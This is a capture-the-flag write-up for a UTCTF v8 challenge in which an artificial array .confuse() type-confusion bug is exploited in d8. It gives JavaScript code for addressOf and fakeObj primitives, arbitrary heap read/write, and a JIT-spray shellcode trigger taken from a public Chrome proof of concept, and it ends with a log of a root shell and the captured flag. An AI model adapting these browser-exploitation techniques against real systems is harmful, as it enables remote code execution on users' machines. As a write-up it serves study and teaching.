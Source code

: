 # E-Corp Part 2 
![challenge](challenge.png)
### Description:
##### Last year, your internship at E-Corp (Evil Corp) ended with a working router RCE exploit. Leadership was very impressed. As a result, we chose to extend a return offer. We used your exploit to get a MiTM position on routers around the world. Now, we want to be able to use that MiTM position to exploit browsers to further our world domination plans! This summer, you will need to exploit Chrome!

##### One of our vulnerability researchers has discovered a new type confusion bug in Chrome. It turns out, a type confusion can be evoked by calling .confuse() on a PACKED_DOUBLE_ELEMENTS or PACKED_ELEMENTS array. The attached poc.js illustrates an example. You can run it with ./d8 ./poc.js. Once you have an RCE exploit, you will find a file with the flag in the current directory. Good luck and have fun!

##### By Aadhithya (@aadhi0319 on discord)

### Overview:
This is a simple v8 challenge that provides us with a very powerful type confusion bug in the form of a new array method called `.confuse()`, which when called will switch a `PACKED_DOUBLE_ELEMENTS` array to a `PACKED_ELEMENTS` one and vice-versa.

Every array in javascript has a specific type tied to it, i'll briefly describe the ones relevant to us:
- `PACKED_DOUBLE_ELEMENTS` -> array consisting of **raw 64-bit doubles** (very useful for exploitation!) with no holes between the elements (hence the `PACKED`)
- `PACKED_ELEMENTS` -> array consisting of **v8 pointers** to other JS objects, with no holes between the elements (hence the `PACKED`)

#### A brief tangent on v8 pointers:
Pointers in the v8 heap are **"compressed"**, which means they only store a 32-bit offset which get summed to the heap base. \
They are also **"tagged"**, which means they are stored with their LSB set (aka pointer + 1 ), to distinct them from Smis, a primitive type used by v8 to store small integers.

### Solution:
So what can we do with our type confusion? \
If we convert a `PACKED_ELEMENTS` array to a `PACKED_DOUBLE_ELEMENTS` v8 will interpret the object pointers inside the array as 64-bit doubles, therefore leaking their addresses to us.

This allows us to very easily build an `AddressOf` primitive, which we can use to leak the address of an object in the v8 heap.

```js
function GetAddressOf(x) {
    arr = [x];
    arr.confuse()
    
    //NOTE: ftoi() converts a double into an integer, see the full exploit for details
    return (ftoi(arr[0])&0xffffffffn) - 1n;
}
```

Doing the opposite allows to create a `FakeObj` primitive, where we make v8 treat an arbitrary number as a legitimate object pointer.

```js
function GetFakeObject(x) {   
    //NOTE: itof() converts an integer into a duble, see the full exploit for details
    arr = [itof(x)];
    arr.confuse();
    return arr[0];
}
```

These two primitives are all we need to achieve arbitrary read/write inside the v8 heap: \
Our plan is to build two objects `arr_arbrw` and `corrupter_arr`, the last one is a carefully crafted fake object that allows us to overwrite the elements pointer of the `arr_arbrw` array, giving us arb r/w by reading/writing the elements of said array.

```js
let arr_arbrw = [0.1, 0.2, 0.3];

let fake_jsarr = [
    itof((EMPTY_PROPERTIES_ADDR << 32n) | BigInt(MAP_JSARR_PACKED_DOUBLES_ADDR)),
    itof(0x4343434343434343n) // PLACEHOLDER
];

let FAKE_JSARR = GetAddressOf(fake_jsarr)+1n;
let FAKE_JSARR_ELEMENTS = FAKE_JSARR + 0x54n
let ARR_ARBRW_ADDR = GetAddressOf(arr_arbrw)+1n;
console.log("FAKE: 0x"+(FAKE_JSARR_ELEMENTS).toString(16));
console.log("ARR: 0x"+(ARR_ARBRW_ADDR).toString(16));

fake_jsarr[1] = itof(((FAKE_JSARR_SZ * 2n) << 32n) | BigInt(ARR_ARBRW_ADDR));
let corrupter_arr = GetFakeObject(FAKE_JSARR_ELEMENTS);

function v8_write64(where, what) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8n));
    arr_arbrw[0] = itof(what);
}

function v8_read64(where) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8n));
    return ftoi(arr_arbrw[0]);
}
```

Now that we have achieved full memory corruption inside the v8 heap we only need a way to hijack RIP, there were many possible ways but i opted for JIT-Spraying a Turbofan compiled function as seen in this [POC](//https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE_2023_3420/poc.js).

```js
////https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE_2023_3420/poc.js
function func() {
    return [1.9553825422107533e-246, 1.9560612558242147e-246, 1.9995714719542577e-246, 1.9533767332674093e-246, 2.6348604765229606e-284];
}
for (let i = 0; i < 200000; i++) func(0);
```

First we run the function a lot of times to mark it as hot and let turbofan optimize it into assembly.

```js
var funcAddr = GetAddressOf(func);
console.log("func address: 0x" + funcAddr.toString(16));

var code = v8_read64(funcAddr + 0x8n) >> 40n;
console.log("code address: 0x" + code.toString(16));

var jitAddr = v8_read64(code + 0x10n) & 0xffffffffn;
console.log("jit address: 0x" + jitAddr.toString(16));

v8_write64(code + 0x10n, ((jitAddr + 0x7an) << 32n));
console.log("new jit address: 0x" + (jitAddr + 0x7an).toString(16));
```

Then we slightly modify the offset of our JIT function such that it will jump into the shellcode we wrote inside the float values, we have 6 bytes we can use for instructions and 2 bytes we have to use to jump to the next float. \
Thankfully we don't have to worry about that if we use a ready-made function from a POC :p.

```js
func();
```

The last thing we need to is to call the function to trigger our shellcode and enjoy our shell.

```bash
$ python3 exploit.py 
[+] Opening connection to challenge.utctf.live on port 6128: Done
[*] Switching to interactive mode
 
Running. Good luck! 
FAKE: 0x434b9
ARR: 0x43445
func address: 0x1d3e08
code address: 0x2403b1
jit address: 0xe0000f31
new jit address: 0xe0000fab
$ whoami
root
$ cat /c18eddd76c9b90e6fe205871db8cbff5
utflag{tH3_aRt_0f_c0nfU5!On}
```

Flag: ```utflag{tH3_aRt_0f_c0nfU5!On}```
